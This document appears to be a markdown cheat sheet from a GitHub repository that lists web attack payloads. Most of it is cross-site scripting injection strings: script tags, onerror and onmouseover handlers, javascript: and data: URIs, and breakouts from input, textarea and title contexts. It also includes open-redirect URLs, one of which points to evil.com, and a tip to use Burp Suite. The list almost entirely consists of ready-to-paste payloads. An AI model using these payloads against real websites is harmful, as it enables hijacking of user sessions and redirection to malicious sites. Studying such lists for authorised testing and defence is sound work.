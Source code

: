 # Open redirect

- __`https://test.com/?redirect=https://www.google.com`__
- __`https://test.com/?redirect=https://www.google.com@evil.com`__


# Cross-Site Scripting (XSS)

- __`/?name=">test123`__
- __`/?name=">test123<script>alert(1)</script>`__
- __`/?name=">test123<script>alert(1);//</script>`__
- __`/?name=">test123<image src=x onerror=alert()>`__
- __`/?name=">test123<image src=x onmouseover=alert()>`__
- __`/?name=">test123<image src=x onmouseover=document.write(1)>`__
- __`/?name=javascript:alert()` or `/?name=<a href=javascript:alert(1)>test123`__
- __`/?name=<iframe src=javascript:alert(1)>`__
- __`/?name=<object data="data:text/html,<script>alert(1)</script>"></object>`__
- __`/?name=<object data="data:text/javascript,<h1>test123"></object>`__
- __`/?name=<script src=data:text/javascript,alert(1337)></script>`__
- __`/?name="><h1><u/onmouseover=alert(1)>test123`__
- __`/?name=test123';alert(1);//`__
#### for "input" tag
- __`/?name=test123" onmouseover=aler(1);//`__

#### for <textarea>
- __`/?name=test123</textarea><img/src=x onerror=alert(2)>`__


#### for </title>
- __`/?name=test123</title><img/src=x onerror=alert(2)>`__


- > __If you are not getting /?name=test123 in url you can use burpsuite__
  - ![image1](https://github.com/Chittu13/All_in_one/blob/main/image/image1.png)
